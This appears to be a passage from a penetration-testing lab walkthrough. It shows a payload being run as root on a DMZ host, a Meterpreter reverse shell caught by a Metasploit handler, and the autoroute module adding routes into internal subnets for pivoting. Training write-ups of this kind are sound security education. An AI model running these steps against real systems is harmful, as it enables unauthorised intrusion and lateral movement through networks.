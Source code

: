 ```shell-session
root@dmz01:/tmp# chmod +x shell.elf 
root@dmz01:/tmp# ./shell.elf 
```

If all goes as planned, we'll catch the Meterpreter shell using the multi/handler, and then we can set up routes.

Internal Information Gathering

```shell-session
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 10.10.14.15:443 
[*] Sending stage (989032 bytes) to 10.129.203.111
[*] Meterpreter session 1 opened (10.10.14.15:443 -> 10.129.203.111:58462 ) at 2022-06-21 21:28:43 -0400

(Meterpreter 1)(/tmp) > getuid
Server username: root
```

Next, we can set up routing using the `post/multi/manage/autoroute` module.

Internal Information Gathering

```shell-session
(Meterpreter 1)(/tmp) > background
[*] Backgrounding session 1...
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> use post/multi/manage/autoroute 
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> show options 

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, autoadd, print, delete, de
                                       fault)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION                   yes       The session to run this module on
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)

[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> set SESSION 1
SESSION => 1
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> set subnet 172.16.8.0
subnet => 172.16.8.0
[msf](Jobs:0 Agents:1) post(multi/manage/autoroute) >> run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.203.111
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.17.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.18.0.0/255.255.0.0 from host's routing table.
[*] Post module execution completed
```
